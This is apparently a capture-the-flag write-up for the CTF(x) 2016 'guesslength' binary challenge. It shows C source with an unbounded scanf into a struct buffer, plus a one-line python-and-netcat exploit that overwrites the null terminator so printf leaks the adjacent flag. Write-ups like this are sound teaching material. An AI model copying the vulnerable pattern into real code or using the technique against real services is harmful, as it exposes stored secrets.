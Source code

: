 ```yaml
---
title: "CTF(x) 2016 - guesslength (Binary)"
header:
  overlay_image: /assets/images/ctfx2016/guesslength/header.jpg
  overlay_filter: 0.5
  caption: "Photo credit: Elmira G. on Unsplash"
tags:
  - ctfx2016
  - writeup
  - pwn
---
```


Overwriting a null byte in a buffer causes printf to print sensitive struct
data.

## Solution

We are given the following source code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

typedef struct {
    char input[50];
    int length;
    char flag[50];
} data;

int main()
{
    setbuf(stdout, NULL);
    data d;

    strncpy(d.flag, "REDACTED", sizeof(d.flag));

    printf("Enter your text: ");
    scanf("%s", d.input);

    printf("Guess the length of this text: ");
    scanf("%d", &d.length);

    if (strlen(d.input) == d.length) {
        printf("You guessed the length correctly. Great job!\n");
    } else {
        printf("The actual length of '%s' is %ld, not %d. Sorry :(\n", d.input, strlen(d.input), d.length);
    }

    return 0;
}
```

There is an obvious buffer overflow when the scanf reads an unbounded amount of
data into the struct. However, we don't want to overflow too much or we will
overwrite the flag that is stored in the struct. Our solution is to write just
enough to get the null byte within the four bytes that make up the length field
and then ensure that the packed representation of the length we provide does not
include a null byte to leak the flag.

The exploit is a one liner:

```shell
amon@Evanna:~/ctf/ctfx/binary/guesslength$ python -c 'print "A"*52 + "\n" + str(0x0a0a0a0a)' | nc problems.ctfx.io 1338
Enter your text: Guess the length of this text: The actual length of 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA



ctf(hiding_behind_a_null_overwrite)' is 91, not 168430090. Sorry :(
```

Flag: **ctf(hiding\_behind\_a\_null\_overwrite)**
